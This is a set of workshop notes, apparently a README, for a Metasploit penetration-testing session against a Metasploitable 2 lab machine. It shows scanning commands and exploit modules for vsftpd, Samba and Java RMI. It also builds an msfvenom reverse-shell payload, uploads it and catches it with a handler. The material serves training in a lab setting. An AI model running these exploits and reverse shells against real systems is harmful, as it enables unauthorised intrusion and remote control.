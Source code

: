This file contains the commands showcased during the Null Humla session on `Metasploit for Pentesters` conducted on 27th May in Bhopal. Expecting contributions and improvements.



Inorder to get started with metasploit, the database needs to be setup. Metasploit uses Postgresql as its database
service postgresql start
This launches up the metasploit
```bash
msfconsole
```
---
In case database isn't connected even after starting the service 
```bash
msfdb init
```
this command initializes the database again with the very beginning

 Metasploit follows all the bash commands. Like nmap can be used as 
```bash
nmap -sn 192.168.1.1/24 -vv
```
but the results of the options like "hosts" is never stored in the metasploit database. In that case using db_nmap can be fruitful 
it saves all these ips to its database. It is helpful for future reference.

 -sn switch is a host scan in a subnet defined. -vv is the verbose. The number of v's can be increased in order to increase the verbosity.
```bash
db_nmap -sn 192.168.1.1/24 -vv
```
Determines the hosts
```bash
hosts
```
-A does the aggressive scan determining every single information about the host( open ports, banners, keys etc)
```bash
db_nmap -A 192.168.1.101 -vv
```
services determines the services that the available for that host
```bash
services
```
---

> Let's assume metasploitable 2 (Victim) IP to be 192.168.1.101

Multiple workspaces can be created for easy switching and comparing different results.
-a switch adds the new workspace named portscan
```bash
workspace -a portscan
```
This command switches between the workspaces
```bash
workspace portscan
```
search command searches for the keyword in all its modules
If you want to do a tcp scan then use the auxiliary written below in the command. Set the options according to the necessity.
setg (set global variable) can be used instead of set so that you won't have to set it again and again for the same victim machine
run is used for running the module
Here tcp portscan does the same work as that of nmap but doesnt gives the complete listings (like the name of services and their versions)
```bash
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.101
set THREADS 20
run
```
These are the metasploit modules for searching the versions of the services that are active in a victim's machine
```bash
search name:auxiliary ftp

`grep in metasploit is used  this way`
`name:auxiliary signifies that it will search only in the auxiliary modules`
grep ftp_version name:auxiliary ftp
use auxiliary/scanner/ftp/ftp_version
set...
run...
```
```bash
search name:auxiliary ssh
use auxiliary/scanner/ssh/ssh_version
setg...
run
```
```bash
search name:auxiliary telnet
use auxiliary/scanner/telnet/telnet_version
run
```

Google search port numbers - Find service running on that port - find auxiliary model for identifying version
If you can't find the service running on port, after some time it doesn't hurt to see nmap's finding

> same data
> port  21  vsftpd v 2.3.4
The vulnerabilities in the versions of the following services can be exploited by typing in following commands
search vsftpd name:exploit
use ...
set ...
run

---

> google search samba 3.x exploit

```bash
use exploit/multi/samba/usermap_script
show payloads
set payload ...
set <options>
run
```
Repeat the same for other detected versions

---

```bash
search name:exploit java rmi
use exploit/multi/misc/java_rmi_server
set payload java/meterpreter/reverse_tcp
set options
run
```
This will create a background session. *Java's version of meterpreter has less libraries*
```bash
sessions 
```
Will show a list of sessions
```bash
sessions -i <id>
```
use the meterpreter session 
```bash
sysinfo
getuid
shell
```
In another tab: Tab2
```bash
msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp LHOST=<kali ip> LPORT=443 -f elf > evil 
```
Type below in Tab1's meterpreter session
```bash
upload evil
```
Start another msfconsole session in Tab2 and type below
```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST <kali ip>
set LPORT 443
run
```
Back to Tab1
```bash
shell 
./evil
```
This will give you a proper `meterpreter`


Resources:
- [Vulnhub](https://www.vulnhub.com/)
- [HacktheBox](https://www.hackthebox.eu/)
- [Pentesters Lab](https://www.pentesterlab.com/)
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
